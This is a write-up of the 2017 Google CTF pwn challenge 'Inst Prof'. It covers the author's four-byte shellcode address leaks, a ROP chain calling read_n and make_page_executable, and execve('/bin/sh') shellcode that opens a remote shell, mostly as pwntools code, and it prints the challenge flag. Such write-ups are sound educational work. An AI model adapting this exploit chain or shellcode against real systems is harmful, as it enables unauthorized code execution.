 ```yaml
---
layout: post
title: Google CTF - Inst Prof Writeup
description: "Writeup for the 2017 Google CTF pwn challenge Inst Prof."
modified: 2017-06-24
tags: [writeup, ctf, rop, asm, pwn]
comments: true
share: true
categories: [writeups]
---
```


<!-- This write up is published at: http://gmiru.com/writeups/gctf-inst/ -->

I started this challenge after finishing Wiki since my team still did not solve it at that time. I though I would grab this low hanging fruit fast and move on to the harder challenges, as it was categorised as an easy task and had many solvers. Boy, was I ever wrong! If you are looking for the efficient solution for this challenge, I suggest you keep looking, my solution is full of detours and I made this challenge significantly harder than it should have been.

### The Binary

The provided binary is an x64 linux executable with [NX](https://en.wikipedia.org/wiki/NX_bit) and [PIE](https://en.wikipedia.org/wiki/Position-independent_code) enabled. There is no need for much reversing as the program itself is really simple. In an infinite loop it reads four bytes from the user, executes those four bytes in a loop a thousand times and prints the execution time in the end. More precisely: 
* It allocates an `mmap` page and copies the thousand-iteration-loop template there
* Reads four bytes from the user and substitutes it into the loop 
* Makes the page executable
* Saves the `rdtsc` [clock](https://en.wikipedia.org/wiki/Time_Stamp_Counter)
* Calls the page
* Reads the `rdtsc` clock again and prints the elapsed time
* Frees the page

What is interesting for us is obviously the 4 byte machine code we can run and the printing of the `rdtsc` clock. Since that is the only information sent to us we will have to use it to leak addresses. This and an unhealthy dose of caffeine should be enough to finish the exploit.

### The Leak

The value of the Time Stamp Counter is saved to R12 before the call to our code. Later, when the loop has returned, it is subtracted from the current value of the Time Stamp Counter. It is easy to see how we can use this to leak addresses; we can subtract a value from R12 and we receive the subtracted value plus the time that passed between the two `rdtsc` calls.

```pseudo
r12 = rdtsc1
call our_code
    r12 = r12 - rsp
    return
res = rdtsc2 - r12
res = rdtsc2 - rdtsc1 + rsp
print res
```

If we want to leak accurate addresses then we need to guess or know the time spent between the two `rdtsc` instructions. On the other hand, if we only want to get the base address of a mapping we don't need accurate values as base addresses are page aligned, so the least significant 12 bits are always going to be zero. Leaking the stack base or executable page is straight forward as their addresses are already present in registers (RSP and RIP respectively). Leaking the .text base requires an
additional step. We need to load a .text address into a register and subtract it from R12. Unfortunately I am not aware of any instruction combination that does this in 4 bytes and survives the return. The only alternative solution is to look for a register, that is not written between the calls to our 4 byte shellcode. Lucky for us R14 and R15 satisfies this condition, and the `pop r14; push r14` instructions can be used to load the original return address to the R14 register and `sub
r12, r14; ret` can be used to leak it. The actual code for the address leaks:

```python
    ret = asm("ret")
    add_r12_rsp = asm("sub r12, rsp")
    
    m.c.send(add_r12_rsp+ret)
    leak_stack = (u64(m.c.recv(), sign="signed")) -reftime
    stack_base = (leak_stack & 0xfffffffffffff000) - 0x20000
    print ("Leaked stack address: "+hex(leak_stack))
    print ("Leaked stack base: "+hex(stack_base))

    print ("Get ret address to r14")
    m.c.send(pop_r14 + push_r14)
    m.c.recv()

    m.c.send(add_r12_r14+ret)
    leak_prog = (u64(m.c.recv(), sign="signed")) -reftime
    prog_base = (leak_prog & 0xfffffffffffff000)
    print ("Leaked prog address: "+hex(leak_prog))
    print ("Leaked prog base: "+hex(prog_base))
```

### The Exploit

At this point any sane person would have realised that with R14 and R15 we have an arbitrary write primitive. We could write a minimal ROP chain that calls the `make_page_executable` and makes the stack executable and returns to a minimal shell code. But I didn't. I took the scenic route.

After leaking the addresses I decided to call the `read_n(char* dst, int length)` function, to overwrite the stack with arbitrary data. At the time of return RSI contains 0x1000 which is good enough for us, all we need to do is get the stack address into RDI and overwrite the return address with `read_n` function's address. As explained previously, `pop r14; push r14` can be used to get the original return address into R14. Since the `read_n` address is really close to this address, we can issue the `dec r14; ret` instructions multiple times (0x98 times to be exact) to point R14 to `read_n`.

The final step is to get the stack address into RDI and push R14 to the stack. This exactly is achieved by the `push rsi; pop rdi; push r14;` instructions, it will mess up the stack but we plan to read there anyways. The actual code:

```python
dec_r14 = asm("dec r14")
push_r14 = asm("push r14")
pop_rdi = asm("pop rdi")
push_rsp = asm("push rsp")

for i in range(0x98):
    m.c.send(dec_r14+ret)
    junk = m.c.recv()
print("Jumping to read")
m.c.send(push_rsp+pop_rdi+push_r14)
```

All that is left to do is to write a ROP chain that calls `execve` with the `"/bin/sh",0,0` arguments. Thought the naive, adolescent me. The problem is that we only know the base address of the program and not the address of libc. At the time (heavily sleep deprived), I could not see a way to leak libc addresses easily. It would have been pretty simple though, R15 could be pointed to the .got and then `mov r14, [r15]; ret` could have been used to read libc function addresses to R14.

Instead I run `ROPgadget` on
the binary and noted the lack of useful gadgets with much disappointment. There are `pop rdi` and `pop rsi` gadgets in the binary but no control over RDX or EAX which means no `execve` for us (or any syscall for that matter). At this point I was very tempted to give up and ease my sorrow with fine Belgian beers, but I resisted.

Having RSI and RDI control and PIE leak means that we can call any function from the binary and control the first two parameters, so it is worth looking through them. We can call:
* alloc\_page
* free\_page
* make\_page\_executable
* read\_n

The two most useful one are `make_page_executable(void* address)` and the `read_n` functions. With the help of these we can read an arbitrary shell code to the .bss and make it executable and return to it. The shell code can be the `execve("/bin/sh", 0, 0)`, we can place the "/bin/sh" string over the last return address on the stack when the ROP chain is sent. So the actual shell code ends up looking like this:

```asm
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, 59
syscall
```

This is a simple idea but at the time it took me significant amount of time to figure it out and beforehand a lot of trial and error with other non-working solutions. But after the pieces have fallen into place writing the ROP chain is rather straight forward. We simply use the `pop rdi; ret` and `pop rsi, pop r15, ret` gadgets to set up the parameters for the `read_n` and `make_page_executable` functions. The relevant part of the exploit:

```python
## get addresses
bss_base = prog_base + 0x202000
bss_start = prog_base + 0x202070

pop_rdi = prog_base + 0xbc3
pop_rsi_r15 = prog_base + 0xbc1

read_n = prog_base+0xa80
make_page_exec = prog_base+0xa20

# RSI contains read length
ropchain = p64(pop_rsi_r15)+ p64(0x500) + "B"*8
# RDI contains bss address
ropchain += p64(pop_rdi) + p64(bss_start)+p64(read_n)
# RDI contains the bss base
ropchain += p64(pop_rdi) + p64(bss_base)+p64(page_exec)
# ret to the shell code address and "/bin/sh" string
ropchain += p64(bss_start) + "/bin/sh\0"

print("sending stage 1")
m.c.send(ropchain)

# send shell code
last_stage = asm("mov rdi, rsp; mov rsi, 0; mov rdx, 0;mov rax, 59;syscall")
m.c.send("C"*(0x1000-88) +last_stage + "D" *((0x500+88 )-len(last_stage)))
# enjoy remote shell
m.c.interactive()
```

The complete exploit is available [here](/resources/ctf/instprof_exploit.py).

### Summary

Before concluding this write up here is a quick recap of the steps I took to get the flag:
* Leak addresses using the R12 register
* Call `read_n` to overwrite the stack with arbitrary data
* Create a ROP chain that reads to the .bss and makes it executable and returns to it
* Send the `sys_execve("/bin/sh",0,0)` shellcode
* Submit flag, realise it is my anniversary, quit CTF to try to save relationship (true story)

Without doubt this is not the most efficient way to solve this challenge, yet I hope some people find the write up helpful, educational. Overall I definitely enjoyed this challenge even though I almost lost hope at one point and was really close to giving up. Last but not least, I would like to say thank you to the organisers for the quality challenges and competition.

Oh yeah and the flag of course:

```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```


### TL;DR

Despair is the name of the game.

